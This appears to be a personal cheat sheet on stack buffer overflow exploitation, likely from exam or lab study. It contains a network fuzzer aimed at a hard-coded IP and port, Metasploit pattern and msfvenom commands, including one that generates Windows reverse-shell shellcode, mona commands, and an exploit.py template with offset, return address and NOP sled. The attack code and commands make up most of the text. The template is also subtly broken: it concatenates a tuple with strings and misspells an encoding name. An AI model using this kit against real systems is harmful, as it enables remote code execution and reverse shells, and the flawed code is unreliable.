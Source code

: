 # Buffer Overflow

## Fuzzer

{% embed url="https://github.com/AceSineX/BOF-fuzzer-python-3-All-in" %}

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100
prefix = ""
while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.49.177',7138))

        payload = prefix + buffer
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100

    except:
        print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
    
```

## Steps

1. Fuzz and crash program w/ A's
2. Create msfpattern
   * `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600`
3. Provide EIP to find offset
   * `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q (EIP value)`
4. Check for bad characters
5. Find JMP ESP/Return Address
   * make sure protection schemes are off and base address doesn't contain bad chars
6. Generate Shellcode
   * `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00"`
7. Exploit!

## Mona commands

```
!mona config -set workingfolder c:\mona\%p 
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\nameOfProgram\bytearray.bin -a ESP Address
!mona jmp -r ESP -m "module"
```

## Exploit.py

```python
import socket

ip = "MACHINE IP"
port = 9999


prefix = ""
offset = 2306
overflow = "A" * offset
retn = "\x0d\x11\x20\x11" # JMP ESP 1120110d
padding = "\x90" * 16 # nops
payload = ()
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "slatin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
